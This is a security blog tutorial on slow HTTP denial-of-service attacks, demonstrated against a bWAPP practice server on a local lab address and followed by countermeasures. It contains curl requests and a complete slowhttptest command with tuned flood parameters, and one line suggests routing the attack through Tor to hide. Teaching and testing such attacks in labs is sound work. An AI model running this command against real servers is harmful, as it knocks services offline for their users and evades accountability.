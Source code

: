 :page-slug: asymmetric-dos-slow-http-attack/
:page-date: 2018-11-15
:page-category: attacks
:page-subtitle: The story of David and Goliath
:page-tags: security, vulnerability
:page-image: https://res.cloudinary.com/fluid-attacks/image/upload/v1620330667/blog/asymmetric-dos-slow-http-attack/cover_hdty39.webp
:page-alt: greek statue with small angels.
:page-description: Here you'll learn how a slow HTTP attack works, how to inspect HTTP requests and responses, and you'll see how to perform an asymmetric denial of service.
:page-keywords: DoS, Vulnerability, Slowhttptest, Slow Body, HTTP, Asymmetric Attacks, Ethical Hacking, Pentesting
:page-author: Kevin Amado
:page-writer: kamadoatfluid
:name: Kevin Amado
:about1: Civil Engineer
:about2: "An algorithm must be seen to be believed" Donald Knuth
:source: https://unsplash.com/photos/Wf2tCunxqQU

= Asymmetric DoS, Slow HTTP Attack

Have you ever heard the story of David and Goliath?
David, a young boy, goes out to confront a giant, named Goliath.
David is the underdog in this fight and is expected to lose.
But, everyone underestimates David and his prowess with a slingshot.
When David ultimately kills Goliath,
he demonstrates that even a little guy can triumph
over the biggest and strongest of enemies.

Fine! Today we are going to talk about unequal scenarios.
Furthermore, we are going to battle one ourselves.

== Let's get started

So, let’s imagine, for a moment,
that all you need to kill the giant,
that everyone fears, is a little slingshot,
not a big mace, nor the strength of a thousand men.
Sound crazy? Well, it is. But it’s possible.

A cyber attack is considered "asymmetric"
in the sense that you only need a few resources,
in this case, a laptop,
in order to cause a considerable amount of damage,
malfunction or failure in the server.
A very real case of David vs. Goliath.

If we push hard enough, the server is going to stop providing the service to
other users, in other words, we will cause a _Denial of Service_ (DoS).

== How does a slow http attack work?

Imagine a line at the local fast food restaurant.
A customer at the head of the line
can't decide if he wants a burger or a hot-dog.
People behind him in line are getting mad;
they aren't getting their food
because he is holding up the whole line.

If you look at it in more detail,
all this customer needed to do was to "not know what to order".
His indecision basically caused a denial of service
for every other person waiting behind him at the counter, i.e., A DoS.

Now imagine the same line,
but the customer at the counter knows what he wants to order,
and he's ordering a thousand burgers and a hundred hot-dogs.
Again, this means everyone behind him in line
will have to wait while his order is filled.
The restaurant can take no more orders until his is complete.

The HTTP protocol works similarly, it requires requests to be fully received by
the final user before they are processed.

Two things can happen, if a request is not completed,
the server can either wait
or set the request as timed out after some few seconds.
However, if you let the request complete,
but at a slow rate, then the server will keep the resource busy
waiting for the end of the data.

What would happen if the customer orders a thousand burgers
and a hundred hot-dogs, but he can't decide
which sauces and drinks to order with them?
And, to make matters worse, he seems to be intentionally indecisive
and he's speaking very slowly.

The answer:

[button]#link:https://cwe.mitre.org/data/definitions/400.html[D.o.S.]#

This is exactly the idea behind a slow HTTP attack.

A web server keeps its active connections
in a relatively small connection pool.
We will try to tie all the connections in this pool
to slow requests, making the server reject other users.

== Let's do an HTTP request

First, let’s run a
[button]#link:http://www.itsecgames.com/[bWAPP]#
server on ip _192.168.56.101_.

.BWAPP server
image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620330667/blog/asymmetric-dos-slow-http-attack/bwapp-running_lncq1r.webp[bwapp-running]

For now, let’s assume that we are at:

----
192.168.56.101/bWAPP/xss_post.php.
----

And we entered in the form:

.XSS page and input
image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620330666/blog/asymmetric-dos-slow-http-attack/xss-login-form_gbaxlz.webp[xss-login-form]

Once we access a page,
the browser is going to ask the server for some resources
(images, texts, `HTML` pages, `CSS` and `JavaScript` files, etc)
and we can see these requests and responses
from the command line using `curl`
(or Google Chrome, or Firefox, or `BURP`).

The process using _curl_ is:

[source, bash, linenums]
----
$ # login to the server so we can see as a logged user the page we want
$ curl -L -c post_login_cookie 'http://192.168.56.101/bWAPP/login.php' \
--data 'login=bee&password=bug&security_level=0&form=submit'
$ # result: a file is saved with name 'post_login_cookie'
$
$ # submit a post request with the data we want on the field
$ curl -L -b post_login_cookie -v \
-d "firstname=test1&lastname=test2&form=submit" \
http://192.168.56.101/bWAPP/xss_post.php
$ # output is displayed to console, we'll see it in a moment
----

As mentioned before,
every single resource is going to have a request and a corresponding response.
In other words, we are asking the server for the _xss_post.php_ resource with
the parameters:

.POST Parameters
[source, bash, linenums]
----
firstname=test1&lastname=test2&form=submit
----

Since we want to se an HTML page, _curl_ asks for it:

.curl, server request output
[source, bash, linenums]
----
*   Trying 192.168.56.101...
* TCP_NODELAY set
* Connected to 192.168.56.101 (192.168.56.101) port 80 (#0)
> POST /bWAPP/xss_post.php HTTP/1.1
> Host: 192.168.56.101
> User-Agent: curl/7.58.0
> Accept: */*
> Cookie: PHPSESSID=5fvb1fr053gmc2f91ooicvf1f5; security_level=0
> Content-Length: 41
> Content-Type: application/x-www-form-urlencoded
----

And the server replies with:

.curl, server response output
[source, bash, linenums]
----
* upload completely sent off: 41 out of 41 bytes
< HTTP/1.1 200 OK
< Date: Thu, 15 Nov 2018 21:31:32 GMT
< Server: Apache/2.2.14 (Ubuntu) mod_mono/2.4.3 PHP/5.3.2-1ubuntu4.30 with
Suhosin-Patch proxy_html/3.0.1 mod_python/3.3.1 Python/2.6.5 mod_ssl/2.2.14
OpenSSL/0.9.8k Phusion_Passenger/4.0.38 mod_perl/2.0.4 Perl/v5.10.1
< X-Powered-By: PHP/5.3.2-1ubuntu4.30
< Expires: Thu, 19 Nov 1981 08:52:00 GMT
< Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
< Pragma: no-cache
< Vary: Accept-Encoding
< Content-Length: 11291
< Content-Type: text/html
----

At this point,
nothing stops us from sending follow up headers with random values:

.POST Parameters
[source, bash, linenums]
----
firstname=FASLDKJFEI&lastname=test2&form=submit
----

wait some seconds...

.POST Parameters
[source, bash, linenums]
----
firstname=IEU182KSZ&lastname=test2&form=submit
----

And nothing stops us from simulating a slow connection
on each one of these requests,
so the server is going to have to wait
until we receive the full resource.

Why not do a thousand requests
until every single connection available on the server pool
is busy with us?

To do this, we are going to use a tool.

== Using slowhttptest

First, let's pull the
link:https://hub.docker.com/r/frapsoft/slowhttptest/[slowhttptest docker image]
from the docker hub.

.Bash command
[source, bash, linenums]
----
$ docker pull frapsoft/slowhttptest
----

And write the following command:

.Bash command
[source, bash, linenums]
----
$ sudo docker run --name DoSBWAPP --rm  frapsoft/slowhttptest \
-c 65539 -B -i 10 -l 300 -r 10000 -s 16384 -t firstname \
-u "http://192.168.56.101/bWAPP/xss_get.php" -x 10 -p 300
----

The parameters you see are described below:

.Slowhttptest description
|====
|-c 65539| use 65539 connections
|-B|specify to slow down the http in message body mode
|-i 10|seconds of interval between follow up data, per connection
|-l 300| duration of the test in seconds
|-p 300|timeout in seconds to wait for HTTP response on probe connection,
after which server is considered inaccessible
|-r 10000| connections per second
|-s 16384|value of Content-Length header
|-x 10|max length of follow up data in bytes
|-t firstname|add ?firstname=(-x 10bytes) to the target url
|-u URL|target URL
|====

While the attack is running a user that tries to access the service is going
to see:

.BWAPP is trying to connect without success
image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620330664/blog/asymmetric-dos-slow-http-attack/bwapp-while-attacking_rqvn9n.webp[bwapp-while-attacking]

If the attack is long enough, it is going to get timed out:

.BWAPP gets timed-out
image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620330664/blog/asymmetric-dos-slow-http-attack/bwapp-timed-out_zqmfbc.webp[bwapp-timed-out]

Once the attack is finished everything returns to a normal state:

.BWAPP working normally after attack
image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620330666/blog/asymmetric-dos-slow-http-attack/bwapp-attack-finished_ka1ois.webp[bwapp-attack-finished]

Since we only need a few resources (the internet and a laptop)
we can even do it on a low-bandwidth connection.
Moreover, since we don't need too much bandwidth,
we can pass everything through a proxy
in the tor network and hide ourselves.

== Sounds scary, how do I protect myself?

Counter-measures depend mainly on your service.
Some useful mechanisms to prevent this kind of attacks are:

* Limit the number of resources an unauthorized user can expend.
* Set the header and message body to a maximum reasonable length.
* Define a minimum incoming data rate, and drop those that are slower.
* Set an absolute connection timeout.
* Use a Web Application Firewall.
* Reject connections with verbs not supported by the URL.

In cases where you need to set minimum and maximum limits,
it's a good idea to use the values from your statistics.
If the value is too short, you may risk dropping legitimate connections;
if it is too long, you won't get any protection from attacks.
Perhaps using a margin ranging
from one to two link:https://en.wikipedia.org/wiki/Normal_distribution#/media/File:Empirical_Rule.PNG[standard deviations]
may help you with this.

== Finally

I really hope that you liked this article.

I wish you a nice week, and will see you in another post!

== References

. [[r1]] Wikipedia (2018).
'Hypertext Transfer Protocol'.
link:https://en.wikipedia.org/wiki/Hypertext_Transfer_Protocol[Wiki].

. [[r2]] Sergey Shekyan (2018).
'Slowhttptest - Installation And Usage'.
link:https://github.com/shekyan/slowhttptest/wiki/InstallationAndUsage[Github wiki].

. [[r3]] Sergey Shekyan (2018).
'Application Layer DoS attack simulator'.
link:https://blog.qualys.com/tag/slow-http-attack[Docker hub].
